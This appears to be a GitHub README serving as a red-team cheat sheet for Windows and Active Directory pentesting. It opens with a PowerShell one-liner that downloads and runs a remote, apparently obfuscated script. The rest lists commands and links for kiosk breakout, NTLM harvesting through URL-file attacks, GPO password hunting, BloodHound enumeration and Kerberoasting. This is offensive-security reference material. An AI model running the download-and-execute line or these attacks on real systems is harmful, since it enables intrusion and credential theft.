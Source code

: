 ### Legitimate files for security audit

$key need to be set

```
IEX(New-Object Net.WebClient).downloadstring('https://raw.githubusercontent.com/TikTakTech/Salsa/main/KP_Obf_LOAD_Menu.ps1')
```

# CYBER CHEAT SHEET

**Global Ressources**
---
- https://viperone.gitbook.io/pentest-everything
- https://book.hacktricks.xyz/
- https://atomicredteam.io/atomics/
- https://github.com/S3cur3Th1sSh1t/

**Kiosk evasion** : file access from browser or openfile dialogbox
---
```
file://c:/windows/system32/calc.exe
```

**Recent user activity**
---
```
C:\Users\%username%\AppData\Roaming\Microsoft\Windows\Recent
```

**Url file attack**
---
- https://www.ired.team/offensive-security/initial-access/t1187-forced-authentication
- https://viperone.gitbook.io/pentest-everything/everything/everything-active-directory/forced-coercion/url-file-attack
- https://github.com/mdsecactivebreach/Farmer
- https://www.mdsec.co.uk/2021/02/farming-for-red-teams-harvesting-netntlm/

**NTLM**
---
- https://www.scip.ch/en/?labs.20210909

**KALI : Files Transfert**
---
```
python -m http.server
```

- https://haveibeenpwned.com/
- https://breachdirectory.org/

**SYSVOL access without serveur name**
---
```
\\mon-domaine.fr\sysvol
```
**Searching Password in GPO with explorer**
---

![image](https://github.com/TikTakTech/Salsa/assets/114105972/45e450e0-3a09-4da1-89d0-24db9bc8adb7)

**BloodHound**
---
```
bloodhound-python -d domain -u username@domain -p password -c all -ns domain_controller_ip -v
sudo apt install bloodhound
sudo neo4j console
http://localhost:7474/
(neo4j/neo4j)
bloodhound
```
https://medium.com/@leviathan36/active-directory-testing-with-bloodhound-a33b88622d2f

**ADMiner**
---
```
pipx install 'git+https://github.com/Mazars-Tech/AD_Miner.git'
reopen shell ;-)
AD-miner -c -cf My_Report -u neo4j -p mypassword
```
https://github.com/Mazars-Tech/AD_Miner

**Kerberoasting**
---
```
Find-PotentiallyCrackableAccounts -Stealth -GetSPNs | Get-TGSCipher -Format Hashcat
```
- https://github.com/cyberark/RiskySPN
- https://github.com/nidem/kerberoast/blob/master/GetUserSPNs.ps1
- https://www.youtube.com/watch?v=ycNadGeq03E
  
**MEMCM - MDT - PXE**
---

- https://www.secura.com/blog/attacking-mitigating-windows-pxe-environments
- https://www.netspi.com/blog/technical-blog/network-penetration-testing/attacks-against-windows-pxe-boot-images/
- https://www.riskinsight-wavestone.com/en/2020/01/taking-over-windows-workstations-pxe-laps/
- https://connect.ed-diamond.com/MISC/misc-103/compromission-des-postes-de-travail-grace-a-laps-et-pxe
- https://www.acceis.fr/sattaquer-aux-images-pxe/
- https://github.com/wavestone-cdt/powerpxe
- https://tryhackme.com/r/room/breachingad

<br/><br/>
